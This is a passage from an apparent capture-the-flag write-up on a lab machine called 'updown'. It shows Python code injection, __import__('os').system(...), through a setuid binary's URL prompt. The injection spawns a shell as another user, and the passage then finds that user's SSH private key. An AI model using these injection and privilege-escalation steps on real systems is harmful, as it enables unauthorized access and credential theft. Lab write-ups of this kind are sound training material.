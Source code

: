 It’s calling the python script from the application.

### Execution as developer

#### POC

Putting all that together, I just need to run the binary (which runs as
developer) and give it the Python code to run:

    
    
    www-data@updown:/home/developer/dev$ ./siteisup            
    Welcome to 'siteisup.htb' application
    
    Enter URL here:__import__('os').system('id')
    uid=1002(developer) gid=33(www-data) groups=33(www-data)
    Traceback (most recent call last):
    ...[snip]...
    

It worked!

#### Shell

I’ll switch out `id` for `bash`:

    
    
    www-data@updown:/home/developer/dev$ ./siteisup
    Welcome to 'siteisup.htb' application
    
    Enter URL here:__import__('os').system('bash')
    developer@updown:/home/developer/dev$ id
    uid=1002(developer) gid=33(www-data) groups=33(www-data)
    

It returns a shell as developer! To be more specific, the process is running
under the user developer, but the group is still www-data. This means I can’t
read `user.txt`, as it’s owned by root, and in the developer group:

    
    
    developer@updown:/home/developer$ ls -l
    total 8
    drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
    -rw-r----- 1 root      developer   33 Jan 14 21:08 user.txt
    

### SSH

Fortunately, in developer’s `.ssh` directory, there’s an RSA key-pair:

    
    
    developer@updown:/home/developer/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub
    

The public key matches the `authorized_keys` file:

    
    
    developer@updown:/home/developer/.ssh$ md5sum authorized_keys  id_rsa.pub 
    4ecdaf650dc5b78cb29737291233fe99  authorized_keys
    4ecdaf650dc5b78cb29737291233fe99  id_rsa.pub
    